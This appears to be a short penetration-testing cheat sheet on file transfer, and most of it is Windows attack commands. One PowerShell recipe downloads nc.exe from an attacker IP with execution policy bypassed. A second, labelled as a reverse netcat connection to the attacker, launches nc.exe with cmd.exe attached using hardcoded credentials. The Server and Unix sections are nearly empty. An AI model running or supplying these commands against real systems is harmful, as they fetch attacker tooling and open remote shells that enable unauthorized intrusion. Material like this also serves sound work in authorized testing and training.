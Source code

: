 # File transfert



## Server

### Python



## Client Unix


wget, fetch, ftp, tftp



## Client windows

### http

````
echo $storageDir = $pwd > upload.ps1
echo $url = "http://192.168.168.169/nc.exe" >> upload.ps1
echo $file = "$storageDir\nc.exe" >> upload.ps1
echo (New-Object System.Net.WebClient).DownloadFile($url,$file) >> upload.ps1
powershell.exe -NoLogo -NoProfile -NonInteractive -ExecutionPolicy Bypass -File upload.ps1
````

Run reverse netcat connection and connect to attacker:
````
echo $secpasswd = ConvertTo-SecureString "myPassword1" -AsPlainText -Force >script.ps1
echo $mycreds = New-Object System.Management.Automation.PSCredential ("admin", $secpasswd) >>  script.ps1
echo $computer = "User-PC" >> script.ps1
echo [System.Diagnostics.Process]::Start("C:\tmp\nc.exe","192.168.168.169 443 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer) >> script.ps1
powershell.exe -NoLogo -NoProfile -NonInteractive -ExecutionPolicy Bypass -File script.ps1
````








